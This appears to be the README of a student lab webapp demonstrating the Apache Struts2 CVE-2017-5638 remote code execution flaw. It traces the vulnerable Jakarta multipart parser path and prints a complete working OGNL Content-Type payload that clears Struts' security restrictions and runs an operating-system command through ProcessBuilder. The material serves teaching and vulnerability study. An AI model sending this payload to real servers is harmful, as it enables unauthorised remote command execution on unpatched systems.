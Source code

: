# Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (localhost:8080)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGLN expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OglnTextParser.class, which simply interprets the OGLN expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

The OGLN expression from the Content-Header is then passed into the 'parse' method.

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

During the parsing attempt, an exception is thrown as it is unable to parse the OGLN expression, and ends up in JakartaMultiPartRequest.class buildError method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class translateVariables method delegates to the OglnTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGLN expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

### The Payload
The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. 

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    '(#p=new edu.uvu.ms.cybersecurity.Command(#cmd))).'
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)
                      